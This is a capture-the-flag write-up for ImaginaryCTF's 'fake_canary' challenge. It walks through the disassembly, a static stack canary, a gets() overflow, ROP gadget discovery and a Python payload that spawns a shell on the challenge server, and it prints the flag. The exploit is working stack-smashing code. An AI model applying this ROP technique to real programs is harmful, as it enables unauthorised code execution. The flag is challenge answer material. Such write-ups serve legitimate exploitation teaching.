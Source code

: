 # FAKE_CANARY
```
Description
Here at Stack Smasher Inc, we protect all our stacks with industry grade canaries!

Attachments
https://2021.imaginaryctf.org/r/fake_canary nc chal.imaginaryctf.org 42002
```

- File : [fake_canary](../attachements/fake_canary/fake_canary)

Here we have to obtain a shell through **fake_canary** via ncat

Looking at the binary we can see a static canary : **0xdeadbeef**
```
┌ 158: main ();
│           ; var int64_t var_30h @ rbp-0x30
│           ; var uint32_t var_8h @ rbp-0x8
│           0x00400687      55             push rbp
│           0x00400688      4889e5         mov rbp, rsp
│           0x0040068b      4883ec30       sub rsp, 0x30
│           0x0040068f      488b05ba0920.  mov rax, qword [obj.stdout] ; obj.__TMC_END__
│                                                                      ; [0x601050:8]=0
│           0x00400696      b900000000     mov ecx, 0
│           0x0040069b      ba02000000     mov edx, 2
│           0x004006a0      be00000000     mov esi, 0
│           0x004006a5      4889c7         mov rdi, rax
│           0x004006a8      e8d3feffff     call sym.imp.setvbuf
│           0x004006ad      488b05ac0920.  mov rax, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5
│                                                                      ; [0x601060:8]=0
│           0x004006b4      b900000000     mov ecx, 0
│           0x004006b9      ba02000000     mov edx, 2
│           0x004006be      be00000000     mov esi, 0
│           0x004006c3      4889c7         mov rdi, rax
│           0x004006c6      e8b5feffff     call sym.imp.setvbuf
│           0x004006cb      b8efbeadde     mov eax, 0xdeadbeef
│           0x004006d0      488945f8       mov qword [var_8h], rax
│           0x004006d4      488d3ded0000.  lea rdi, str.Welcome_to_Stack_Smasher_ ; 0x4007c8 ; "Welcome to Stack Smasher!"
│           0x004006db      e870feffff     call sym.imp.puts
│           0x004006e0      488d3dfb0000.  lea rdi, str.Whats_your_name_ ; 0x4007e2 ; "What's your name?"
│           0x004006e7      e864feffff     call sym.imp.puts
│           0x004006ec      488d45d0       lea rax, [var_30h]
│           0x004006f0      4889c7         mov rdi, rax
│           0x004006f3      b800000000     mov eax, 0
│           0x004006f8      e873feffff     call sym.imp.gets
│           0x004006fd      b8efbeadde     mov eax, 0xdeadbeef
│           0x00400702      483945f8       cmp qword [var_8h], rax
│       ┌─< 0x00400706      7416           je 0x40071e
│       │   0x00400708      488d3de90000.  lea rdi, str.HACKER_DETECTED__Program_aborted ; 0x4007f8 ; "**HACKER DETECTED! Program aborted**"
│       │   0x0040070f      e83cfeffff     call sym.imp.puts
│       │   0x00400714      bfffffffff     mov edi, 0xffffffff         ; -1
│       │   0x00400719      e872feffff     call sym.imp.exit
│       │   ; CODE XREF from main @ 0x400706
│       └─> 0x0040071e      b800000000     mov eax, 0
│           0x00400723      c9             leave
└           0x00400724      c3             ret
```

We need to place **0xdeadbeef** in **var_8h @ rbp-0x8**

Analyzing the stack with gdb we see that we need a **0x28** padding then **0xdeadbeef**

Then we need to redirect the code execution to **system('/bin/sh')**

## Finding system
Gladly **system** is in the .plt section
```
$ objdump -d fake_canary
[...]
0000000000400560 <system@plt>:
  400560:    ff 25 ba 0a 20 00        jmp    *0x200aba(%rip)        # 601020 <system@GLIBC_2.2.5>
  400566:    68 01 00 00 00           push   $0x1
  40056b:    e9 d0 ff ff ff           jmp    400540 <.plt>
[...]
```

## Finding '/bin/sh'
"/bin/sh/" is also in the binary :
```
$ strings -a -t x fake_canary | grep "/bin/sh"
    81d /bin/sh
```

And the binary start at 0x400000
```
gdb> vmmap
Start              End                Perm    Name
0x00400000         0x00401000         r-xp    /home/max/projet/ctf/imaginaryctf/fake_canary/fake_canary
0x00600000         0x00601000         r--p    /home/max/projet/ctf/imaginaryctf/fake_canary/fake_canary
0x00601000         0x00602000         rw-p    /home/max/projet/ctf/imaginaryctf/fake_canary/fake_canary
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p    mapped
0x00007ffff7dd3000 0x00007ffff7df9000 r--p    /usr/lib/libc-2.33.so
0x00007ffff7df9000 0x00007ffff7f44000 r-xp    /usr/lib/libc-2.33.so
0x00007ffff7f44000 0x00007ffff7f90000 r--p    /usr/lib/libc-2.33.so
0x00007ffff7f90000 0x00007ffff7f93000 r--p    /usr/lib/libc-2.33.so
0x00007ffff7f93000 0x00007ffff7f96000 rw-p    /usr/lib/libc-2.33.so
0x00007ffff7f96000 0x00007ffff7fa1000 rw-p    mapped
0x00007ffff7fc7000 0x00007ffff7fcb000 r--p    [vvar]
0x00007ffff7fcb000 0x00007ffff7fcd000 r-xp    [vdso]
0x00007ffff7fcd000 0x00007ffff7fce000 r--p    /usr/lib/ld-2.33.so
0x00007ffff7fce000 0x00007ffff7ff2000 r-xp    /usr/lib/ld-2.33.so
0x00007ffff7ff2000 0x00007ffff7ffb000 r--p    /usr/lib/ld-2.33.so
0x00007ffff7ffb000 0x00007ffff7ffd000 r--p    /usr/lib/ld-2.33.so
0x00007ffff7ffd000 0x00007ffff7fff000 rw-p    /usr/lib/ld-2.33.so
0x00007ffffffde000 0x00007ffffffff000 rw-p    [stack]
0xffffffffff600000 0xffffffffff601000 --xp    [vsyscall]
```

So "/bin/sh" is at **0x40081d**

One last thing is to find a ROP gadget to put **"/bin/sh"** in rdi before calling **system**

```
$ ropper --file fake_canary --search "% rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % rdi

[INFO] File: fake_canary
0x00000000004007a3: pop rdi; ret;
```

Perfect **pop rdi** then **ret** is exactly what we are looking for.

Now the payload will look like :
```
[ 0x28 padding ] [ canary ] [ 0x8 padding ] [ ROP ] [ /bin/sh ] [ puts ] [ ROP ] [ bin/sh ] [ system ]
```

I have added `[ ROP ] [ /bin/sh ] [ puts ]` for debug to print **"bin/sh"** before executing system

Here the python script generating the payload

- File : [exploit.py](../attachements/fake_canary/exploit.py)
Executing the exploit :
```python
import struct

canary = 0xdeadbeef
system = 0x400560 
puts = 0x400550 
rop = 0x4007a3
binsh = 0x40081d

payload = 'A'*0x28
payload += struct.pack('Q',canary)
payload += 'OSEF'*2
payload += struct.pack('Q',rop)
payload += struct.pack('Q',binsh)
payload += struct.pack('Q',puts)
payload += struct.pack('Q',rop)
payload += struct.pack('Q',binsh)
payload += struct.pack('Q',system)

print(payload)
```

```
$ ( python2 exploit.py ; cat ) | ncat chal.imaginaryctf.org 42002
What's your name?
/bin/sh
id
uid=1000 gid=1000 groups=1000
ls
flag.txt
run
cat flag.txt
ictf{m4ke_y0ur_canaries_r4ndom_f492b211}
```

flag : `ictf{m4ke_y0ur_canaries_r4ndom_f492b211}`

